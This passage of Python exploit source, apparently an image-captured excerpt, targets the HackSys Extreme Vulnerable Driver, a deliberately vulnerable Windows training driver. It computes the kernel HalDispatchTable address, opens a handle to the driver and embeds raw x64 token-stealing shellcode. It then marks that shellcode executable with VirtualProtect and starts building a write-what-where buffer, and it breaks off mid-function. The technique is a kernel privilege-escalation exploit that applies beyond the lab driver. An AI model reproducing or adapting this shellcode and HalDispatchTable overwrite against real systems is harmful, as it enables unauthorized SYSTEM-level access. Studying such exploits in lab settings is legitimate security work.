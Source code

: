 ```python
    print("[*] Userland HalDispatchTable Address: {}".format(hex(userland_hal))[:-1])

    kernel_hal = userland_hal - kern_handle + int(kernel_base,16)
    printable_hal = hex(kernel_hal)
    if printable_hal[-1] == "L":
        printable_hal = printable_hal[:-1]
    print("[*] Kernel HalDispatchTable Address: {}".format(printable_hal))

    target_hal = kernel_hal + 0x8    
    print("[*] Target HalDispatchTable Function Pointer at: {}".format(hex(target_hal)[:-1]))

    return target_hal    

def send_buf(target_hal):

    hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
    if (not hevd) or (hevd == -1):
        print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
        sys.exit(1)
    else:
        print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

    
    shellcode = bytearray(
        "\x90\x90\xff\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
        "\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
        "\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
        "\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
        "\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
        "\x5B\x59\x58\xc3")

    print("[*] Allocating shellcode character array...")
    try:
        usermode_addr = (c_char * len(shellcode)).from_buffer(shellcode)
        ptr = addressof(usermode_addr)
    except Exception as e:
        print("[!] Failed to allocate shellcode char array with error: " + str(e))
    print("[*] Allocated shellcode character array at: {}".format(hex(ptr)[:-1]))

    print("[*] Marking shellcode RWX...")
    result = kernel32.VirtualProtect(
        usermode_addr,
        c_int(len(shellcode)),
        c_int(0x40),
        byref(c_ulong())
    )

    if result == 0:
        print("[!] VirtualProtect failed with error code: {}".format(str(GetLastError())))

    print("[*] Allocating our What buffer...")
    try:
        new_buf_contents = bytearray(struct.pack("<Q", ptr))
        new_buf = (c_char * len(new_buf_contents)).from_buffer(new_buf_contents)
```